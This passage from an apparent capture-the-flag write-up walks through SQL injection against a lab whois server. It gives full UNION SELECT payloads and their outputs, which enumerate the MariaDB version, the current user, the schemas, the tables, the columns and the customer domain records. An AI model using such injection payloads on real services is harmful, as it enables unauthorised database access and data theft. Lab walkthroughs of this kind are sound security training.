 In my initial enumeration I found and dumped a bunch of domains via SQL
injection in the whois server. I did poke at that a bit more to see if I
could find anything useful.

DB version:



    root@kali# whois -h 10.10.10.155 -p 43 "supersechostinga.htb') UNION SELECT @@version,2#"
    % SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
    % for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
    % This query returned 1 object
    10.1.37-MariaDB-0+deb9u1



The current user:



    root@kali# whois -h 10.10.10.155 -p 43 "supersechostinga.htb') UNION SELECT user(),2#" | grep -vE "^%"
    whois@localhost



DBs:



    root@kali# whois -h 10.10.10.155 -p 43 "supersechostinga.htb') UNION SELECT GROUP_CONCAT(schema_name SEPARATOR '\n'),2 FROM information_schema.schemata#" | grep -vE "^%"
    information_schema
    whois



Tables in `whois` database:



    root@kali# whois -h 10.10.10.155 -p 43 "supersechostinga.htb') UNION SELECT GROUP_CONCAT(table_name SEPARATOR '\n'),2 FROM information_schema.tables WHERE table_schema = 'whois'#" | grep -vE "^%"
    customers



Columns in `customers` table:



    root@kali# whois -h 10.10.10.155 -p 43 "supersechostinga.htb') UNION SELECT GROUP_CONCAT(column_name SEPARATOR '\n'),2 FROM information_schema.columns WHERE table_schema = 'whois'#" | grep -vE "^%"
    id
    domain
    data



A list of the customers:



    root@kali# whois -h 10.10.10.155 -p 43 "supersechostinga.htb') UNION SELECT GROUP_CONCAT(CONCAT(id, ': ', domain) SEPARATOR '\n'),2 FROM customers#" | grep -vE "^%"
    1: supersechosting.htb
    2: justanotherblog.htb
    3: pwnhats.htb
    4: rentahacker.htb
